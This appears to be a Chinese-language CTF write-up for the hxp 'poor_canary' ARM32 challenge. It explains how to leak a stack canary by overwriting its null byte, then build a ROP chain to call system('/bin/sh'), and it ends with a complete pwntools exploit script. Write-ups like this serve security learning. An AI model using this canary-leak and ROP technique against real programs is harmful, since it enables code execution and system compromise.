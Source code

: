 ```yaml
---
layout:     post
title:      绕过canary方法
subtitle:    
date:       2018-12-17
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - pwn
---
```



> hxp题目poor_canary

 源代码如图

![1545020682275](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545020682275.png)

arm32架构的题目

ida中分析

​      ![1545020712524](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545020712524.png)

 

当时分析以为v7就是canary溢出的buf，不清楚canary保护会加一段canary4字节校验。及v9。

所以真实的v7=buf+‘\n’+校验  之后就是ebp和返回地址，我们arm的传参方法为：r0-r3 ，pc为我们的函数地址。

我们找到的rop链为：

![1545021078066](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545021078066.png)

 所以我们可以构造如图所示的payload，

![1545021104176](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545021104176.png)

  sys和binsh可以在ida中找到。

所以我们现在只需要寻找我们的canary的值，即v8，我们还需要把最后的\n给覆盖，所以我们可以这么做

 ```python
sh.send("a"*41)
sh.recvuntil("a"*41)
r=sh.recv(3)
 ```



 即先传41个a，这时候我们的canary就可以传过来了。

如图所示，我们把第41的地方‘0’覆盖为a，就可以打印出来canary的值了。	

 ![1545021892212](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1545021892212.png)

最后的脚本如图：

 ```python
from pwn import *
import sys
context.arch = "arm"
context.os = "linux"
context.log_level = 'debug'
context.terminal = ['tmux', 'split', '-h']
context.endian="little"
bina=0x71eb0
sys=0x16d90
r0=0x26b7c
sh=process("./canary")
sh.recvuntil("> ")
sh.send("a"*41)
sh.recvuntil("a"*41)
r=sh.recv()
canary=u32("\x00"+r)
print "canary = ",hex(canary)
buf  = "A"*40
buf += p32(canary)
buf += "B"*12
buf += p32(r0)
buf += p32(bina)
buf += "C"*4
buf += p32(sys)
sh.send(buf)
sh.recvuntil("> ")
sh.send("\n")
sh.interactive()
 ```



 


